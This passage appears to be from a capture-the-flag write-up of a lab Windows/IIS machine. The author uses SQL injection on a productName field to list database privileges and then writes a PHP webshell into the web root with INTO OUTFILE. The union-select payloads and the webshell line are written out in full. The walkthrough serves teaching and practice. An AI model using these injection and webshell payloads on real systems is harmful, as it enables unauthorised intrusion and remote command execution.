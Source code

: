 ![image-20191125054640263](https://0xdfimages.gitlab.io/img/image-20191125054640263.png)

I’m not sure how these could be useful right now, but I’ll start cracking these now to have later.

Next I’ll look at the privileges for the various users with `productName=Asus' union select grantee,privilege_type,is_grantable,4,5,6 from information_schema.user_privileges#`. Both hector and root seem to have all the privileges (too many to show below). manager seems to have one, FILE:

![image-20191125060613112](https://0xdfimages.gitlab.io/img/image-20191125060613112.png)

### Shell

#### File Write

Since my current user has FILE priv, I’m going to write a webshell on the box. I’ll issue the following POST which should print out a webshell:

```

productName=Asus' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6#

```

It does write what I wanted it, but unsurprisingly, it does not execute it, since it’s just printed as text to the screen:

```

<tr><td><?php system($_GET['cmd']); ?></td><td>2</td><td>3</td><td>4</td><td>5</td><td>6</td></tr>

```

But, now, I can run the same SQL command, but this time write it to a file, guessing the default IIS path:

```

productName=Asus' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/_0xdf.php'#

```

The page returns an error:

```

Error: SQLSTATE[HY000]: General error

```

But if I POST the same command again, I get a different error saying the file already exists:

```

Error: SQLSTATE[HY000]: General error: 1086 File 'c:/inetpub/wwwroot/_0xdf.php' already exists

```
